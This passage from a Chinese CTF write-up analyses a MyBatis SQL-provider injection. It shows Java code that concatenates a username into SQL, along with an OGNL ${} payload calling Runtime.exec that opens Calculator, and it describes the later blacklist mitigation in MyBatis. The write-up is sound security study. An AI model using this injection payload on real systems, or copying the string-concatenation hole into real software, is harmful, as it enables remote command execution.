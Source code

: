 查看对应的Provider实现，传入的参数name通过SQL拼接进行查询，这里明显是存在SQL注入的，可以任意的拼接内容，写入前面提到的${}：

```Java
@SelectProvider(type = FindUserByName.class, method = "getUser")
List<User> getUserByUserName(String name);

class FindUserByName {
    public String getUser(String name) {
        String s = new SQL() {
            {
                SELECT("*");
                FROM("users");
                WHERE("username='" + name+"'");
            }
        }.toString();
        return s;
    }
}
```

根据前面的分析，这里实现的过程可以类比成xml配置中存在如下的select标签：

```Java
<select id="getUserByUserName" parameterType="String" resultMap="User">
    select * from users where username like 用户传入的name
</select>
```

假设name的值是一个ognl表达式的话，mybatis会进行解析，从而达到RCE的效果。

这里将name设置为如下poc进行请求：

```Java
${@java.lang.Runtime@getRuntime().exec("open /System/Applications/Calculator.app")}
```

可以看到ognl正常解析并且执行了对应的命令：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-e73aed5f848f917a6a77aa8610ef2d770938d064.png)

到这里已经把整个CTF题目重新完整的“复现一遍”了。相关的问题也有了答案了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-0692d8d8e8d50cca8f9de4cf593f21214dbc471f.png)

0x04 其他
=======

4.1 相关限制
--------

从mybatis从3.5.4开始，在`org.apache.ibatis.ognl.OgnlRuntime#InvokeMethod`方法中，有一个黑名单机制，当\_useStricterInvocation属性为true时，黑名单中的类将不能被使用，例如执行命令要用到的Runtime和ProcessBuilder都在黑名单内：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-289379550393c3f97f70a1a1d0e76252ab1324f6.png)

\_useStricterInvocation属性在static代码块进行了赋值，默认是true：
